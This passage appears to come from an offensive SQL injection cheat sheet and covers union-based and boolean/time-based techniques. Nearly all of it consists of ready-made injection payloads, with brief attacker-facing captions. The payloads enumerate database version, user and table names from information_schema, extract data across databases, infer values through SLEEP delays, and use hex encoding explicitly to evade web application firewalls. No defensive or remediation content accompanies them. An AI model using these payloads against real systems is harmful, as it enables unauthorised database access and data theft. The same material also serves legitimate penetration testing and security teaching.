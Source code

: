 ## 2. Advanced Union-Based SQL Injection

### Union-Based Error Handling

Generate detailed error messages by crafting complex payloads:
```sql
' UNION SELECT 1, version(), database(), user() FROM dual WHERE 1=CAST((SELECT COUNT(*) FROM information_schema.tables) AS INT) --
```

### Union with Hex Encoding

Encode parts of your query to evade WAFs:
```sql
' UNION SELECT 1, 0x62656e6368, 0x70617373776f7264, user() --
```

### Multi-Query Union Injection

Leverage multiple queries to extract more data:
```sql
' UNION SELECT 1, database(), (SELECT GROUP_CONCAT(table_name) FROM information_schema.tables WHERE table_schema=database()), user() --
```

### Union-Based Cross Database Extraction

Combine data from different databases (when supported):
```sql
' UNION SELECT 1, (SELECT column_name FROM db1.table1 LIMIT 1), (SELECT column_name FROM db2.table2 LIMIT 1), user() --
```

## 3. Advanced Boolean-Based SQL Injection

### Time-Based Boolean Injection with Conditional Responses

Use time delays to infer data based on conditional responses:
```sql
' AND IF((SELECT LENGTH(database()))>5, SLEEP(5), 0) --
```

### Nested Boolean Injections

Nest conditions to extract specific data:
```sql
' AND IF((SELECT SUBSTRING((SELECT table_name FROM information_schema.tables LIMIT 1), 1, 1))='a', SLEEP(5), 0) --
```

### Error-Based Boolean Injection

Force errors conditionally to reveal information:
```sql
' AND IF((SELECT COUNT(*) FROM information_schema.tables WHERE table_schema=database())>5, (SELECT table_name FROM information_schema.tables), 1) --
```
